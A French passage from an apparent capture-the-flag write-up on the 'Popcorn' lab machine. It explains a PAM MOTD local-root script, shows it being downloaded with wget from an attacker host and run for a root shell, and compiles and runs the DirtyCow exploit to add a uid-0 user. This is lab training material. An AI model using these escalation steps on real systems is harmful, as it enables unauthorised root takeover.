La fonction `own` vaut la peine d'être examinée:

```bash
own() {
    [ -e ~/.cache ] && rm -rf ~/.cache
    ln -s "$1" ~/.cache || return 1
    echo "[*] spawn ssh"
    ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
    [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
    echo "[+] owned: $1"
}
```

Si `~/.cache` existe, il le supprime. Ensuite, il crée le lien du fichier vers la cible, qui du corps principal est le premier `/etc/passwd`, puis `/etc/shadow`. Ensuite, il exécute **SSH** pour se connecter à la cible pour exécuter la commande `true`, puis se déconnecte. Il vérifie qu'il dispose désormais des autorisations d'écriture sur le fichier.  
Ainsi, dans chacun des appels à `own`, il obtient un accès en écriture, puis ajoute une ligne, ajoutant ainsi l'utilisateur en tant qu'utilisateur _root_, comme je l'ai fait manuellement.  
Ensuite, il restaure `.cache` et nettoie la clé **SSH** qui a été ajoutée.  
Enfin, il appelle `su -c` avec une longue commande à exécuter en tant que _root_ pour l'utilisateur _toor_. Lorsque j'entre ce mot de passe, _toor_, il exécute la commande:

* supprimez la ligne pour l'utilisateur toor à la fois dans `/etc/passwd` et `/etc/shadow`;
* changez le propriétaire de ces deux fichiers en _root_;
* changez le groupe de `/etc/shadow` en _shadow_;
* `nscd` est le démon de mise en cache pour les services de noms, y compris `passwd`, et [cela invalide le cache](https://linux.die.net/man/8/nscd);
* lance `bash` pour donner un shell.

Fondamentalement, il nettoie après lui-même, puis lance un shell.

#### Run

J'ai réinitialisé la boîte, re-téléchargé un **webshell**, obtenu un shell, avec `pty`. Ensuite, j'ai téléchargé le script en utilisant un serveur Web Python \(`python3 -m http.server 80`\) et `wget`:

```bash
www-data@popcorn:/dev/shm$ wget 10.10.14.20/pam_motd.sh
--2021-01-03 23:28:12--  http://10.10.14.20/pam_motd.sh
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3043 (3.0K) [text/x-sh]
Saving to: `pam_motd.sh'

100%[======================================>] 3,043       --.-K/s   in 0.004s  

2021-01-03 23:28:45 (761 KB/s) - `pam_motd.sh' saved [3043/3043]
```

Le script s'exécute et renvoie un shell _root_:

```bash
www-data@popcorn:/dev/shm$ bash pam_motd.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/dev/shm#
```

### Dirty Cow

Compte tenu de l'âge de cette boîte, il y a sûrement plusieurs exploits du kernel à rechercher ici. Par exemple, `uname -a` montre qu'il exécute `2.6.31`:

```bash
root@popcorn:/dev/shm# uname -r
2.6.31-14-generic-pae
```

Il est probablement vulnérable à [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions). La page correspondante contient une [liste de POC](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs). J'ai eu la meilleure chance avec `dirty.c`. Je peux [récupérer ce code](https://github.com/FireFart/dirtycow/blob/master/dirty.c) et le compiler sur Popcorn:

```bash
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
```

```bash
www-data@popcorn:/dev/shm$ chmod +x dirty
www-data@popcorn:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiek5FdMtod.2:0:0:pwned:/root:/bin/bash

mmap: b78a8000
^C
```

Pour une raison quelconque, il se bloque parfois. Après une minute, je le tue. Mais l'utilisateur est toujours ajouté:

```bash
www-data@popcorn:/dev/shm$ su - firefart
Password: 
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~#
```

